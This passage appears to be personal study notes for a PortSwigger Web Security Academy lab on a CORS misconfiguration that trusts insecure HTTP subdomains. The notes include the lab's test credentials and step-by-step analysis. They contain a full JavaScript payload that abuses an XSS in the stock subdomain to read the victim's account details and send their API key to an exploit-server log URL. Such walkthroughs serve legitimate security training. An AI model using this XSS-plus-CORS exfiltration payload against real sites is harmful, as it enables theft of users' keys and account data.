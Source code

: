 3. Go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with the URL for your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with the exploit server ID:
	![](Pasted%20image%2020250307022810.png)


# 3. Trusted insecure protocols
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: `wiener:peter`

**Analysis**:
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
2. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
3. Open a product page, click **Check stock** and observe that it is loaded using a HTTP URL on a subdomain. Observe that the `productID` parameter is vulnerable to XSS.
4. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID:
```javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
5. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL. Go back to the exploit server and click **Deliver exploit to victim**. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

**Workflow**:
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
	![](Pasted%20image%2020250307024846.png)
2. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
	![](Pasted%20image%2020250307025013.png)
3. Open a product page, click **Check stock** and observe that it is loaded using a HTTP URL on a subdomain. Observe that the `productID` parameter is vulnerable to XSS.
	![](Pasted%20image%2020250307025127.png)
	![](Pasted%20image%2020250307025211.png)
	![](Pasted%20image%2020250307025744.png)
4. Go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID:
	![](Pasted%20image%2020250307025953.png)